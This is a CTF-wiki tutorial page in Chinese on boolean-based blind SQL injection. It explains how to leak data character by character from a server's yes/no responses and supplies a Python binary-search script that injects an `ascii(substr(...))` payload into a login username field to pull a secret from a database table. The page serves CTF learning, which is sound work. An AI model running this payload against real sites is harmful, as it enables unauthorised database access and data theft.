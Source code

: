 # 布尔盲注
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



布尔盲注，故名思意，与bool代数的运算有关，也就是和true和false有关


依赖于服务器给我们的响应，生活中这个漏洞相对来说还是比较多。


具体来说就是我们问服务器XXX第一个字符是不是a他告诉你不是，然后你问它第一个字符是不是b..................................一直推下去，相当于一个一个字符爆破出你想查询的信息。


主要靠的还是扎实的py脚本功夫


bool盲注依赖于脚本，这里给出几个bool盲注的脚本


这里都是二分法，遍历也行，但大家都学过时间复杂度，对吧。


```plain
import requests
import time
url = ""
files = {"file": "123456789"}
'''字段值'''
flag=''
for i in range(1,100):
low = 32
high = 128
mid = (low+high)//2
while (low < high):
time.sleep(0.06)
payload_flag = {
'username': "test\" or (ascii(substr((select secret from flag_tbl),{0},1))>{1}) #".format(i,mid),'password': 'test'}
r = requests.post(url=url,params=payload_flag,files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
cookies={"PHPSESSID": "test1"})
print(payload_flag)
if '<meta http-equiv="refresh" content="0; url=?p=home" />' in r.text:
low = mid +1
else:
high = mid
mid = (low + high) // 2
if(mid==32 or mid == 132):
break
flag +=chr(mid)
print(flag)
print(flag)
Plain Text
```
